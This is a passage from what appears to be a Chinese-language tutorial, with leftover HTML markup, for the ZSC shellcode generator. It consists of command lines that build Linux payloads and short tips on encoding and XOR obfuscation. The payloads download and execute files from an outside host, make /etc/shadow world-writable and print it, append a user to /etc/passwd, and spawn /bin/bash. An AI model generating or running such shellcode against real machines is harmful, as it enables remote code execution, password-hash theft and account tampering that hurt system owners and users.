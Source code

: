 >zsc -os linux_x86 -encode none -job <span class="hljs-string" nodeIndex="756"><span class="hljs-string" nodeIndex="757">"dir_create('/root/Desktop/mydirectory')"</span></span> -o file.txt

>zsc -os linux_x86 -encode none -job <span class="hljs-string" nodeIndex="758"><span class="hljs-string" nodeIndex="759">"download('http://www.z3r0d4y.com/exploit.type','myfile.type')"</span></span> -o file.txt

>zsc -os linux_x86 -encode none -job <span class="hljs-string" nodeIndex="760"><span class="hljs-string" nodeIndex="761">"download_execute('http://www.z3r0d4y.com/exploit.type','myfile.type','./myfile.type')"</span></span> -o file.txt

<span class="hljs-meta" nodeIndex="762"><span class="hljs-meta" nodeIndex="763">#multi command</span></span>

>zsc -os linux_x86 -encode none -job <span class="hljs-string" nodeIndex="764"><span class="hljs-string" nodeIndex="765">"download_execute('http://www.z3r0d4y.com/exploit.type','myfile.type','chmod[space]777[space]myfile.type;sh[space]myfile.type')"</span></span> -o file.txt

>zsc -os linux_x86 -encode none -job <span class="hljs-string" nodeIndex="766"><span class="hljs-string" nodeIndex="767">"script_executor('script.type','D:\\myfile.type','./script.type')"</span></span> -o file.txt

>zsc -os linux_x86 -encode none -job <span class="hljs-string" nodeIndex="768"><span class="hljs-string" nodeIndex="769">"script_executor('z3r0d4y.sh','/root/z3r0d4y.sh','sh[space]z3r0d4y.sh')"</span></span> -o file.txt

>zsc -os linux_x86 -encode none -job <span class="hljs-string" nodeIndex="770"><span class="hljs-string" nodeIndex="771">"script_executor('ali.py','/root/Desktop/0day.py','chmod[space]+x[space]ali.py;[space]python[space]ali.py')"</span></span> -o file.txt

>zsc -os linux_x86 -encode none -job <span class="hljs-string" nodeIndex="772"><span class="hljs-string" nodeIndex="773">"system('ls')"</span></span> -o file.txt

>zsc -os linux_x86 -encode none -job <span class="hljs-string" nodeIndex="774"><span class="hljs-string" nodeIndex="775">"system('ls[space]-la')"</span></span> -o file.txt

>zsc -os linux_x86 -encode none -job <span class="hljs-string" nodeIndex="776"><span class="hljs-string" nodeIndex="777">"system('ls[space]-la[space]/etc/shadow;chmod[space]777[space]/etc/shadow;ls[space]-la[space]/etc/shadow;cat[space]/etc/shadow;wget[space]file[space];chmod[space]777[space]file;./file')"</span></span> -o file.txt

>zsc -os linux_x86 -encode none -job <span class="hljs-string" nodeIndex="778"><span class="hljs-string" nodeIndex="779">"system('wget[space]file;sh[space]file')"</span></span> -o file.txt

>zsc -os linux_x86 -encode none -job <span class="hljs-string" nodeIndex="780"><span class="hljs-string" nodeIndex="781">"chmod('/etc/shadow','777')"</span></span> -o file.txt

>zsc -os linux_x86 -encode none -job <span class="hljs-string" nodeIndex="782"><span class="hljs-string" nodeIndex="783">"write('/etc/passwd','user:pass')"</span></span> -o file.txt

>zsc -os linux_x86 -encode none -job <span class="hljs-string" nodeIndex="784"><span class="hljs-string" nodeIndex="785">"exec('/bin/bash')"</span></span> -o file.txt<br nodeIndex="786"></code>
</pre>
<p nodeIndex="116">提示：不要再system()函数中使用”，用”[space]“代替，软件会在shellcode里检测并把它替换成”"。</p>
<p nodeIndex="117">script_executor(),download_execute(),download(),dir_create(),file_create()使用linux命令行，而不是函数。</p>
<p nodeIndex="118">[wget,mkdir,echo] system()函数会被增加到脚本中，你可以尽情使用他们并生成任何命令行shellcode。</p>
<p nodeIndex="119">提示：exec()不支持任何ARGV、exec(‘/bin/bash -c ls’)或者(‘/bin/bash’, ‘-c’,'ls’)，很可惜，下个版本才支持这种操作。</p>
<p nodeIndex="120">提示：你还可以对inc time和dec time使用high value，比如inc_100000，但是这样的话，你的shellcode可能会变得很大。</p>
<p nodeIndex="121">提示：你每次执行chmod()或其他可以随机编码的函数，你可能会得到随机输出和不一样的shellcode。</p>
<p nodeIndex="122">提示：异或操作可以做所有事！比如：“xor_0x41414141” 和 “xor_0x45872f4d”。</p>
<h3 nodeIndex="123">Wizard Switch</h3>
